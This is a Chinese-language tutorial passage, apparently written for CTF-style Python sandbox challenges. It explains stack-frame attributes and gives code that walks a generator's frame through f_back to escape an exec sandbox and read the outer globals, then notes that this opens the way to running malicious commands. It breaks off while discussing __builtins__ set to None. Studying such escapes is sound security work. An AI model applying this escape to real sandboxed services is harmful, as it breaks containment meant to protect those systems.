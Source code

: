 
栈帧包含了以下几个重要的属性：
`f_locals`: 一个字典，包含了函数或方法的局部变量。键是变量名。
`f_globals`: 一个字典，包含了函数或方法所在模块的全局变量。
`f_code`: 一个代码对象（code object），包含了函数或方法的字节码指令、常量、变量名等信息。
`f_lasti`: 整数，表示最后执行的字节码指令的索引。
`f_back`: 指向上一级调用栈帧的引用，用于构建调用栈。


# 利用栈帧(frame)逃逸沙箱


原理就是通过生成器的栈帧对象通过f\_back（返回前一帧）从而逃逸出去获取globals符号表，例如：



```
key = "this is flag"
codes='''
def waff():
    def f():
        yield g.gi_frame.f_back
    g = f()  #生成器
    frame = next(g) #获取到生成器的栈帧对象
    b = frame.f_back.f_back.f_globals['key'] #返回并获取前一级栈帧的globals
    return b
b=waff()
'''
locals={}
code = compile(codes, "", "exec")
exec(code, locals, None)
print(locals["b"])  # this is flag

```

逃逸出来我们就可以调用沙箱外的方法来执行恶意命令了


## globals中的\_\_builtins\_\_字段


`__builtins__` 模块是 Python 解释器启动时自动加载的，其中包含了一系列内置函数、异常和其他内置对象。


当代码这么设计时：



```
key = "this is flag"
codes='''
def waff():
    def f():
        yield g.gi_frame.f_back
    g = f()  #生成器
    frame = next(g) #获取到生成器的栈帧对象
    b = frame.f_back.f_back.f_globals['key'] #返回并获取前一级栈帧的globals
    return b
b=waff()
'''
locals={"__builtins__": None}
code = compile(codes, "", "exec")
exec(code, locals, None)
print(locals["b"])

```
